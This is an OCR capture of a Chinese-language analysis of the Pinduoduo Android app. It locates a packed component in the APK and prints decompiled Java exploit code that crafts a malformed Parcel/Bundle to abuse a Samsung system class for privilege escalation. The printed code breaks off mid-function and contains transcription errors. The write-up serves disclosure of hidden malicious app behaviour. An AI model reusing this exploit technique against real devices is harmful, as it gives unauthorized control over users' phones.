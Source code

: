 解压apk文件，找到拼多多apk中，提权代码所在的文件位置：  
pinduoduo-6-49-0.zip\assets\component\com.xunmeng.pinduoduo.AliveBaseAbility.7z\com.xunmeng.pinduoduo.AliveBaseAbility\vmp_src\mw1.bin
以上是一个加VMP壳的dex文件，脱壳还原出代码，可以找到针对不同手机厂商系统的多个用于提权的漏洞利用代码，胆子相当的大，比如利用三星手机“com.samsung.android.cepproxyks.CertByte”的提权漏洞，代码如下：


 ```java
// assets/component/com.xunmeng.pinduoduo.AliveBaseAbilitiy
// [Manwei]
// com/xunmeng/pinduoduo/android_pull_ablity_comp/pullstartup/SamsungAlivePullStartup 

Public static Bundle makeBundleForSamsungSinceP(Intent intent){
	Bundle bundle = new Bundle();
	Parcel obtain = Parcel.obtain();
	Parcel obtain2 = Parcel.obtain();
	Parcel obtain3 = Parcel.obtain();
	obtain2.writeInt(3);
	obtain2.writeInt(13);
	obtain2.writeInt(72);
	obtain2.writeInt(3);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(4);
	obtain2.writeString("com.samsung.android.cepproxyks.CertByte");
	obtain2.writeInt(0);
	byte b[] = new byte[0];
	obtain2.writeByteArray(b);
	obtain2.writeInt(0);
	obtain2.writeInt(13);
	obtain2.writeInt(72);
	obtain2.writeInt(53);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(1);
	obtain2.writeInt(1);
	obtain2.writeInt(13);
	obtain2.writeInt(72);
	obtain2.writeInt(48);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(13);
	obtain2.writeInt(-1);
	int dataPosition = obtain2.dataPosition();
	obtain2.writeString("intent");
	obtain2.writeInt(4);
	obtain2.writeString("android.content.Intent");
	obtain2.writeToParcel(obtain3, 0);
	obtain2.appendFrom(obtain3, 0, obtain3.dataSize());
	int dataPosition2 = obtain2.dataPosition();
	obtain2.setDataPosition(dataPosition2 - 4);
	obtain2.writeInit(dataPosition2 -dataPosition);
	obtain2.setdataPosition(dataPosition2);
	int dataSize = obtain2.dataSize();
	obtain.writeInt(dataSize);
	obtain.writeInt(1279544898);
 ```